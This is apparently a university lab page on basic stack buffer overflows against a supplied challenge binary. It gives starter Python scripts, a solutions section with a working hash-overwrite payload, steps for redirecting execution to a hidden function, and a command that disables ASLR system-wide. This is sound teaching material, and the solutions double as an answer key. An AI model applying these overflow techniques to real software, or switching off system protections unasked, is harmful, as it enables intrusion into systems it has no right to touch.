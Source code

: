 ```yaml
---
title: "Lab 1: Basic Buffer Overflows"
weight: 1
draft: false
---
```


## Overview

{{< callout emoji="💡" >}}

In this lab you will exploit a basic buffer overflow. You will need to analyze
the software to find the vulnerability in order to understand how to solve the
challenge.

**Goals:**

- Understand the concept of a buffer overflow and why it is exploitable.
- Practice reproducing a crash by writing more data than a buffer can hold.
- Use automated tools (Python script or GEF commands) to locate the location of
  the return address on the stack.
- Inject shellcode onto the stack and redirect program execution into that
  shellcode.

**Estimated Time:** `45 Minutes`

{{< /callout >}}

## Instructions

{{% steps %}}

### Download Challenge Binary

{{< downloadbutton file="challenge.bin" text="challenge.bin" >}}

### Reverse the Program

Run the program and look at it in binary ninja to get a feel for this
executable.

{{< question >}}

Explain at a high level what this program does and how it works.

{{< /question >}}

Next analyze the variables used in the `vulnerable_function`. Find the offsets
into the stack frame (relative to the base pointer) which describes where the
variable starts. For example:

- `foo`: `rbp - 0x100`, 32 bytes
- `bar`: `rbp - 0x80`, 0x60 bytes
- `baz`: `rbp - 0x20`, 16 bytes

{{< question >}}

What are the offsets of each of the three variables used in the
`vulnerable_function`? Which is at the lowest and highest address?

{{< /question >}}

Note how many bytes the program is reading as input. Is this larger than the
size of the buffer that is receiving the data? Perhaps you can use this
information to trick the program into printing a successful message.

### Get Past the Hash Check

This binary contains a buffer overflow vulnerability that allows us to overwrite
the stored hash with one we choose. You will write a python script that prints
the output needed to exploit it. If you are more comfortable with something
other than python, then feel free to use that. Here is a starter template:

```python {filename=solution.py}
import sys

# Generate an amount of A's (or your favorite ascii character)
buffer_size = 8
buffer_bytes = b"A" * buffer_size

# Construct the buffer
new_hash_bytes = b"\xc0\x01\xbe\xef"

# Combine everything into a single buffer
buffer = buffer_bytes + new_hash_bytes

# Output the buffer to stdout so it can be piped to sdtin of the
# target process.
sys.stdout.buffer.write(buffer)
```

If you run the script, it will print a the output buffer needed to exploit the
binary. To test it, you can pipe the output of the script in into the challenge
binary's standard input.

```sh
> python3 solution.py | ./challenge

# You can also use it to write the output to a file and read the file as input with gdb/gef
> python3 solution.py > input.bin
> gdb ./challenge
# ...
gef> break vulnerable_function
gef> run < input.bin
# ...
```

Since you don't know the password that corresponds to the hash in the
executable, to solve this challenge you'll need to overwrite the hash with one
you generate from a password you know.

```sh
> echo "my_super_cool_input" | md5sum
```

> [!TIP] HINT: Make sure the hash you calculate uses the same amount of bytes as
> the hash calculation done by the program!

{{< question >}}

Use a buffer overflow attack to cause the program to print "Access granted!".
Include a screenshot showing that you get the correct message.

{{< /question >}}

### Redirect Execution

> [!IMPORTANT]
> Before this part, run the following command. This disables ASLR (which we'll
> talk about more next week), and this will make solving the next part a little
> easier.
>
> ```
> echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
> ```

You can use your buffer overflow primitive to overwrite more than just the
functions local variables. Why not keep writing as many bytes as you can!

{{< question >}}

Trigger a crash by sending a large amount of data (traditionally all `A`
characters) to get the program to segfault.

{{< /question >}}

You should always verify the cause of the crash, but in this case it is because
you have written over the return address with `0xAAAAAAAA` which is most likely
not valid. And so the program triggers a memory access error called a
[segmentation fault](https://en.wikipedia.org/wiki/Segmentation_fault).

<img src="https://www.coengoedegebure.com/content/images/2018/08/memoryoverflow-1.png" alt="TODO" style="background: #fff;" />

![](./memoryoverflow-1.png "Source: https://www.coengoedegebure.com/buffer-overflow-attacks-explained/")

Instead of overwriting the return address with a junk value, you can redirect
execution to an address of your choosing. Write a script that demonstrates this,
by redirecting execution to the `secret_function`.

> [!TIP]
> If you don't want to figure out the calculations to get your custom return
> address in the right place, you can use the `pattern` command in `gef`. First
> generate a pattern
>
> - https://hugsy.github.io/gef/commands/pattern/

{{< question >}}

Include a final version of your script and a screenshot of the program executing
the `secret_function` in your lab guide.

{{< /question >}}

{{% /steps %}}

## Tips

> [!TIP]
>
> - Build up your input slowly to see where it shows up on the stack.
> - Some helpful `gef` commands:
>   | Command                                | Description                                                                   |
>   | :------------------------------------- | :---------------------------------------------------------------------------- |
>   | `gef config context.enable 0`          | Do not show the context window when the debugger breaks. (Use `ctx` instead.) |
>   | `gef config context.nb_lines_stack 20` | Increase the lines displayed in the stack section of the context window.      |
>   | `dereference --length 8 <addr>`        | Show memory like the stack section, but at the specified `addr`.              |

## Solutions

{{% details title="Click to reveal.." closed="true" %}}

### Overwriting the hash

First calculate the hash of your input.

```sh
> python3 -c "print('A'*0x40, end='')" | md5sum
# d289a97565bc2d27ac8b8545a5ddba45  -

# You can also verify this by sending the input to the Challenge
# program.
> python3 -c "print('A'*0x40, end='')" | ./challenge
# ...
# Computed MD5 Hash: d289a97565bc2d27ac8b8545a5ddba45
# ...
```

Then write a script to send the `A's` + the overwritten hash bytes to the
program.

```python
import sys;
# Completely fill buffer with A's
sys.stdout.buffer.write(b'A'*0x40);
# Overwrite the hash buffer with the bytes of the MD5 hash
sys.stdout.buffer.write(b'\xd2\x89\xa9\x75\x65\xbc\x2d\x27\xac\x8b\x85\x45\xa5\xdd\xba\x45')
```

{{% /details %}}

## Submission

{{< callout emoji="📝" >}}

Submit a markdown file with any code you wrote and the answers to questions to
[ELMS](https://umd.instructure.com/courses/1390353/assignments).

{{< /callout >}}
